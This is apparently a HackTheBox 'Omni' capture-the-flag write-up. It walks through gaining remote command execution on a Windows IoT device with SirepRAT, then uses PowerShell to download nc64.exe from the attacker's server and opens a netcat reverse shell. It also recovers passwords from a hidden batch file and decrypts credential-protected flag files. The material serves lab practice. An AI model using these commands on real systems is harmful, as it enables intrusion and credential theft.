





## HTB Omni Writeup

This was a pretty interesting box and had a new OS that I’ve never messed with.

As always we start with an Nmap scan and adding the box to our hosts file.


So we see that it looks like a Windows server but we never get a proper OS fingerprint for it. After some Googling, it turns out to be a Windows IoT device which is why you see the **upnp** service. **ARCserve** also might give you a hint as it looks to be an IoT related storage solution.<br><br>

If you try to browse to the **8080** port, it’ll respond back with a login prompt but it’ll also mention that it’s a Windows Device Portal. If you look around for exploits regarding this, you’ll find a Python script called **SirepRAT**. This allows us to perform RCE but not interactively. We can run any command we want but it never gives us an interactive shell.<br><br>


However, after messing around with it for a bit, you’ll see that Powershell is installed and able to be called from this script. That means we’re able to upload and execute a payload or a tool. Something like **NetCat** perhaps? <br><br>


It’s important to mention that the proper version of **nc.exe** is needed for this to work. I used **nc64.exe** acquired from here: [https://github.com/int0x33/nc.exe](https://github.com/int0x33/nc.exe)  <br><br>


After we have that executable, we can start a Python HTTP Server to serve the payload.

```
krkn@htb:~$ sudo python -m SimpleHTTPServer 80
```

Then we can utilize the **SirepRAT.py** script to RCE and download that exe.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell.exe Invoke-WebRequest http://10.10.14.234/nc64.exe -outfile C:\\Windows\\Temp\\nc64.exe" --v
```

This command will tell the remote server to run **cmd.exe** to then call Powershell to grab the payload we’re serving in our Python HTTP server and save it in the **Temp** directory.<br><br>


You’ll see a log in your Python terminal to confirm it was downloaded.<br><br>


Then we can start a netcat listener.

```
krkn@htb:~$ nc -lvp 4444
```

Finally we can use the **SirepRAT.py** script again to complete the netcat connection and give us our reverse shell.

```
krkn@htb:~/SirepRAT$ python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\\Windows\\Temp\\nc64.exe 10.10.14.234 4444 -e cmd.exe" --v
```

At that point, you’ll get that lovely Windows command prompt.  <br><br>


From here you can look around all you want. However, an important file to note is located in **C:\Program Files\WindowsPowerShell\Modules\PackageManagement**. This file is hidden so use **dir /ah** to see it. You’ll see an **r.bat** file and in here you’ll find the passwords for user administrator and user app.

  <br><br>


Remember that login prompt from port 8080? Yeah you can use those creds there. It’ll take you to this.

  <br><br>


From here, you’ll see that under **Processes** menu, you have the ability to execute commands. You can use that same **nc64.exe** we dropped earlier to get higher privileges under these user contexts.

But unfortunately, we can’t get user or root because the flags are in some strange XML format.

  <br><br>


After some more Googling, we can decrypt these using Powershell.<br><br>


After opening a powershell prompt, we can use the following command on both **root.txt** and **user.txt** under their prospective user level.

```
$credroot = Import-CliXml -Path C:\\Data\\Users\\administrator\\root.txt


$credroot.GetNetworkCredential().Password
```

This will decrypt the password for us and give us the flags we need.


